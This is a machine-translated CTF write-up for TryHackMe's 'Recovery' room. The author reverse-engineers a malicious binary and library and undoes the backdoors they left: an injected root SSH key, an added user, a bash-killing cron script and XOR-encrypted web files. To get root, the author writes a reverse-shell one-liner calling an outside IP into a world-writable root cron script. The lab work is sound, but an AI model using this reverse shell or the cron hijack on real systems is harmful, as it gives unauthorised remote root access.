# TryHackMe 报道:恢复 CTF

> 原文：<https://infosecwriteups.com/tryhackme-writeup-recovery-ctf-623998a14472?source=collection_archive---------1----------------------->

在本文中，我将展示我完成*恢复*捕获旗帜(CTF)的方法，这是一个由 *deltatemporal 创建的 TryHackMe 平台上的免费房间。*我在下面的参考资料中提供了 TryHackMe 平台的链接，供有兴趣尝试这款 CTF 的人使用。


# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读这篇文章之前尝试一下这个房间，因为在这篇文章中显然会有**剧透** **。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再来写这篇文章，你会更喜欢 CTF！**

这不是你传统的 CTF，所以我发现自己比别人先找到了一些旗帜。这将在我的文章中反映出来，所以如果你不想剧透其他旗帜，只需搜索你所坚持的旗帜。不要再耽搁了，让我们开始吧！

# CTF 背景——帮助亚历克斯！

以下是为 CTF 提供的背景，我在提供的描述中强调了一些重要的信息。务必仔细阅读挑战描述！！！(铺垫😅)

> 嗨，是我，你的朋友亚历克斯。
> 
> *我不打算在这里拐弯抹角；我需要你帮我。如你所知，我在一家名为 Recoverysoft 的公司工作。我从事网站方面的工作，我安装了一个 Ubuntu 网络服务器来运行它。昨天我的一个同事给我发了以下邮件:*
> 
> `Hi Alex,
> A recent security vulnerability has been discovered that affects the web server. Could you please run this binary on the server to implement the fix?
> Regards
> - Teo`
> 
> *附上一个* ***linux 二进制*** *叫做****fix util****。按照指示，我运行了二进制文件，一切正常。但是今天早上，我试图通过 SSH 登录服务器，我收到了这条消息:*
> 
> 你没说咒语！
> 
> 你没说咒语！
> 
> 你没说咒语！
> 
> 原来 Teo 的邮件账户被黑了，而 fixutil 是一个有针对性的恶意二进制文件，专门用来破坏我的网络服务器！
> 
> 当我在浏览器中打开网站时，我得到一些疯狂的废话。 ***webserver 文件已经加密*** *！在你问之前，我没有网络服务器的任何其他备份(我知道，我知道，可怕的做法，等等…)，我不想告诉我的老板，他肯定会解雇我。*
> 
> *请访问 web 服务器，* ***修复 fixutil 造成的所有伤害*** *。你可以在我的* ***主目录*** *找到二进制。以下是我的 ssh 凭证:*
> 
> `Username: alex
> Password: madeline`
> 
> 我已经设置了一个控制面板来跟踪你在 1337 端口上的进度。 *通过网络浏览器访问。当你修复损坏时，你可以刷新页面来接收那些我知道你喜欢囤积的“旗帜”。*
> 
> *祝你好运！你的朋友亚历克斯*

# 标志 0

我首先尝试使用提供的 SSH 凭证登录 web 服务器。

```
ssh alex@10.10.56.178
password: madeline
```

然而，正如上面 CTF 背景中的 Alex 所解释的，消息*你没有说出那个神奇的词！*在登录时重复。



有人告诉我，fix util Linux 二进制文件存储在 web 服务器上 Alex 的主目录中。使用 scp，我可以检索 Alex 主目录的内容。

```
scp -r alex@10.10.56.178:/home/alex/ .
```

这将检索 Alex 主目录中的所有文件。



我决定使用工具 *Ghidra* 对 *fixutil* Linux 二进制文件进行逆向工程。查看二进制文件的 *main()* 方法，我可以看到一些有趣的信息。



似乎二进制文件打开了隐藏文件*。bashrc* 位于 Alex 的用户目录中，并向其中写入一段 bash 脚本，这使得之前看到的消息不断被打印出来。

```
while :; do echo "YOU DIDN’T SAY THE MAGIC WORD!"; done &
```

二进制文件似乎还会将位于 */lib/x86_64-linux-gnu/* 目录中的 *liblogging.so* 文件内容复制到位于 */tmp* 目录中的新文件中。然后二进制文件写入*/lib/x86 _ 64-Linux-GNU/lib logging . so*文件。最后，二进制文件似乎回显一个字符串，并通过一个名为 *admin* 的命令来传输它。

为了删除不断重复的消息，我现在知道我需要更换*。bashrc* 文件放在 Alex 的目录下，用一个新的*。bashrc* 文件，其末尾没有附加 bash 脚本。我已经抄了*。bashrc* 文件，所以我简单地删除 bash 脚本，然后使用 *scp* 将新文件复制到 Alex 的目录，覆盖*。巴沙尔*目前在那里。

```
scp .bashrc alex@10.10.56.178:/home/alex/
```

我尝试使用 SSH 凭证再次登录，但这次没有显示任何消息。



如本 CTF 的背景所述，我可以通过访问位于[*http://10 . 10 . 56 . 178:1337*的网页来查看我的进度和接收标志。访问并刷新这个页面给了我第一个标志😄。](http://10.10.56.178:1337.)



# 标志 1

登录后，我注意到几分钟后我的 SSH 连接会一直断开，但我不确定这是否是 CTF 的一部分。我决定看看之前在 *fixutil* 二进制文件中使用的 *admin* 命令。运行该命令会提供一条消息并提示输入密码。



使用 *scp* ，我检索了管理二进制文件。

```
scp alex@10.10.56.178:/bin/admin
```

使用 *Ghidra* ，我查看了这个二进制文件的 *main()* 方法。我发现密码是硬编码的，但如果我输入了正确的密码，它只会显示一条消息，说明该部分目前正在开发中。



由于这是一个死胡同，我决定继续前进，查看前面在 *fixutil* 二进制文件中引用的 *liblogging.so* 文件。我发现了两个有趣的文件，root 用户拥有的名为 *liblogging.so* 的文件和用户 alex 拥有的名为 *oldliblogging.so* 的文件。


使用 *scp，*我检索了两个文件，然后使用 *Ghidra，*我决定对 *liblogging.so* 文件进行逆向工程。查看 *LogIncorrectAttempt()* 方法，我发现了一些有趣的信息。



从顶层开始工作:

*   由 *fixutil* 二进制文件将其内容复制到 */tmp* 目录中的原始 *liblogging.so* 文件被移动到位于其原始目录中的名为 *oldliblogging.so* 的新文件中。
*   接下来是 */root/。ssh/authorized_keys* 被打开，一个公钥被添加到文件中。
*   二进制程序继续将名为 *security* 的用户添加到 web 服务器，并将他们的密码更改为所提供的 SHA-512 散列密码。
*   然后调用名为 *XOREncryptWebFiles()* 的方法。
*   最后，打开一个名为 *brilliant_script.sh* 的 shell 脚本，添加一些 bash 来搜索 web 服务器上正在运行的 bash 进程，然后杀死它们。这个 shell 脚本随后被添加为属于用户 root 的 *cronjob* 。

根据上面的信息，这解释了为什么我的 SSH 连接总是在几分钟后断开。为了解决这个问题，我决定仔细查看位于 */opt* 目录中的 *brilliant_script.sh* 文件。检查文件权限，我可以看到文件的所有者、文件组中的任何人以及其他所有人都拥有对 *brilliant_script.sh* 文件的读、写和执行权限。我还发现了一个名为*的隐藏目录。但是这需要 root 权限才能访问。*



我决定尝试通过编辑 *brilliant_script.sh* 文件获得一个具有 root 权限的反向 shell。我用 *scp* 检索文件，用下面的逆向 shell 编辑。

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.20.131 4444 >/tmp/f
```

我使用 *scp* 将其复制到 web 服务器并覆盖现有文件。在设置 netcat 监听端口 4444 之后，我尝试使用 SSH 凭证登录。

```
nc -lvnp 4444
```

几分钟后，我获得了一个具有 root 权限的反向 shell。



完成此操作并刷新进度控制面板后，我收到了下一个标志。



在我的反向 shell 中，我还授予用户 alex sudo 权限，这意味着我可以使用 root 权限运行命令。

```
sudo usermod -a -G sudo alex
```

# 标志 5

获得一个根壳后，我决定看一看隐藏的*。我之前发现的 fixutil* 目录。在这个目录中有一个名为 *backup.txt* 的文件，其中包含一串随机的字母。



我记得这个 CTF 的背景描述解释说 web 服务器的文件已经被加密，并且在 *liblogging.so* 文件中有一个名为 *XOREncryptWebFiles()* 的方法。用 *Ghidra* 仔细观察这个方法，我看到了一些有趣的信息。



我看到用于执行 XOR 加密的密钥被创建并存储在 *backup.txt* 文件中，如果它还不存在的话。然后使用 *GetWebFiles()* 方法检索 web 文件，并使用 *XORFile* ()方法加密。查看 *GetWebFiles()* 方法，我可以看到 web 文件存储在哪里。

```
/usr/local/apache2/htdocs/
```



这个位置存储了三个加密的文件。



我创建了一个简单的 python 脚本，它使用在 *backup.txt* 文件中发现的密钥，并将其与这些文件的内容进行异或运算，以恢复它们的原始内容。



解密每个文件并没有揭示任何关于如何获得下一个标志或下一步做什么的进一步提示。就在这时，我想起了这个 CTF 的主要目的是修复任何造成的损害。考虑到这一点，我继续使用 *scp* 将现在解密的文件上传到用户 Alex 的目录，因为我需要 root 权限将文件移动到*/usr/local/Apache 2/htdocs/*。

```
scp * alex@10.10.56.178:/home/alex/
```

然后，我将这三个文件从 Alex 的主目录移动到 web 文件所在的位置。

```
sudo mv index.html reallyimportant.txt todo.html /usr/local/apache2/htdocs
```

刷新进度面板为我提供了标志 5。



我在旗帜 2、3 和 4 之前发现了旗帜 5，所以很明显，我需要原路返回，找出我错过了其他旗帜的地方。在查看了我如何恢复标志 0、1 和 5 之后，我意识到我需要**修复*任何*造成的损害**(即 *fixutil* Linux 二进制文件造成的任何**变化**),就像我为获得我当前拥有的标志所做的那样。显然，我没有足够关注 CTF 描述中提出的问题😅。

# 标志 2

我决定从头开始，看看 *fixutil* 二进制文件做了什么改变。我注意到的第一件事是原始的 *liblogging.so* 文件是如何被替换的。我还记得原来的 *liblogging.so* 文件是如何被移动到一个名为 *oldliblogging.so.* 的文件中的，我决定使用 *cp* 命令用 oldliblogging.so 文件的内容覆盖 liblogging.so 文件的内容来恢复原来的 *liblogging.so* 文件。



这很有效，我可以取回第二面旗。



# 标志 3

继续回溯我的步骤，看看还做了哪些更改，我发现在对 *liblogging.so* 文件进行逆向工程时，该文件已经向 */root/添加了一个公钥。ssh/authorized_keys* 。我删除了这个文件，如下所示。



这样做为我提供了标志 3。



# 标志 4

对 *liblogging.so* 文件进行逆向工程也显示出一个名为 *security* 的新用户已经被添加。我决定通过编辑 */etc/shadow* 和 */etc/passwd* 文件来禁用这个用户帐户。我删除了用户*安全*的条目，并保存了我的更改。这是成功的，我能够得到标志 4。



# 结束语

正如 *deltatemporal 指出的，这是非传统的 CTF。*我真的很喜欢这个房间在 CTF 方法上的改变，从利用漏洞获取标记，改为对假设的恶意软件事件进行分类，并修复任何造成的损害以获取标记。我希望将来能在 TryHackMe 平台上看到更多这样的 CTF，感谢你一直读到最后😄！

# 参考

*   [https://tryhackme.com/](https://tryhackme.com/)
*   [http://pentest monkey . net/cheat-sheet/shell/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
*   [https://www . tldp . org/LDP/LAME/LAME/Linux-admin-made-easy/disabiling-user-accounts . html #:~:text = To % 20 disable % 20a % 20 user % 20 account，%60*''%20asterisk%20character。](https://www.tldp.org/LDP/lame/LAME/linux-admin-made-easy/disabling-user-accounts.html#:~:text=To%20disable%20a%20user%20account,%60*''%20asterisk%20character.)